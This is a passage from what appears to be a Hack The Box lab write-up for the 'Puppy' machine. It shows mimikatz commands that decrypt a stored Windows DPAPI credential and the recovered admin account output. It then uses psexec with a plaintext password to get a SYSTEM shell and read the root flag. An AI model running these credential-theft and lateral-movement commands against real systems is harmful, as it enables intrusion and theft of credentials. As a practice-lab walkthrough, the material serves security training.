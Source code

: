 ```ps1
# Get the user SID
whoami /user
# Get the masterkey
./mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" "exit"

# Make the domain controller decrypt the masterkey and get the credential
./mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\<USER_SID>\<MASTERKEY> /rpc" "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" "exit"
```

And you should get a credential for `steph.cooper_adm`:

```txt
 AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=PUPPY.HTB
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : steph.cooper_adm
  CredentialBlob : <steph.cooper_adm_password>
  Attributes     : 0
```

Checking for `steph.cooper_adm` user, he is a member of the `Administrators` group. So we can get a system shell by using `psexec`.

```ps1
> net user steph.cooper_adm
...
Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
...
```

# Shell as NT Authority\System

## Root flag

```bash
> psexec.py puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!@10.10.11.70
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
deadbeef2160db2dfdc043420497fake
```
